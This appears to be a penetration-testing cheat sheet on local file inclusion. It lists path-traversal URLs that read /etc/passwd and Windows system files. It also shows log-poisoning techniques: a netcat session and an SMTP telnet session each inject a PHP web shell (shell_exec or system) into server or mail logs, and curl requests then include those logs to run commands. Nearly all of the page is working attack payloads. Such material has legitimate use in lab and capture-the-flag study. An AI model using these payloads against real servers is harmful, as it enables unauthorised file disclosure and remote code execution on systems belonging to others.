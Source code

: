 # 1 Local File inclusion

---

- linux:
    
    ```
        https://insecure-website.com/loadImage?filename=../../../etc/passwd
    ```
    
- windows
    
    ```
    http://target.com/?page=c:\windows\system32\drivers\etc\hosts
    http://webserver:ip/index.html?../../../../../boot.ini
    
    ```
    

### Log Poisoning

- web log poisoning
    
    ```
    nc 10.10.10.14 80
    <?php echo '<pre>' . shell_exec($_GET['cmd'])  . '</pre>'; ?>
    ```
    
- **linux**
    
    ```
    curl http://10.10.0.1/addguestbook.php?name=Test&comment=Which+lang%3F&cmd=ipconfig&LANG=../../../../../../../xampp/apache/logs/access.log%00&Submit=Submit
    ```
    
- **windows**
    
    ```
    curl http://10.10.10.14/menu.php?file=c:\xamp\apache\logs\access.log&cmd=ls
    ```
    

### SSH log posioning

http://www.hackingarticles.in/rce-with-lfi-and-ssh-log-poisoning/

### Mail log

LFI /var/mail/

```
telnet <IP> 25  
EHLO <random character>  

VRFY <user>@localhost  

mail from:attacker@attack.com  
rcpt to: <user>@localhost  
data  

Subject: title  

<?php echo system($_REQUEST[cmd]); ?>  

<end with .>  

```
